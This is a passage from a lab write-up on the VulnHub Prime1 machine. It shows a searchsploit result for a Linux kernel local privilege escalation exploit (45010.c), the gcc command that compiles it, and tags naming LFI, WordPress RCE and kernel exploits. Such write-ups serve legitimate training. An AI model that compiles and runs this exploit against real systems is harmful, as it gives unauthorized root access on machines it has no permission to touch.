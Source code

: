 	-----------------------------------------------------------------------------------------------
	Exploit Title                                                            |  Path
	-----------------------------------------------------------------------------------------------
	Linux Kernel<4.13.9(Ubuntu 16.04 / Fedora 27)-Local Privilege Escalation | linux/local/45010.c
	-----------------------------------------------------------------------------------------------
	```
	- https://www.exploit-db.com/exploits/45010
3. Compile Exploit
	```
	┌──(root💀kali)-[~/vulnHub/Prime1/192.168.1.103/exploit/kernel]
	└─# gcc 45010.c -m64 -o exploit -D_GNU_SOURCE
	```
4. Transfer & Exploit
	![](images/Pasted%20image%2020220122042300.png)

	
---
Tags: #exploit/file-inclusion/lfi  #tcp/80-http/cms/wordpress #tcp/80-http/rce #linux-priv-esc/sudo/unknown-exec #linux-priv-esc/linux-creds-found  #cryptography #linux-priv-esc/kernel-exploit 

---
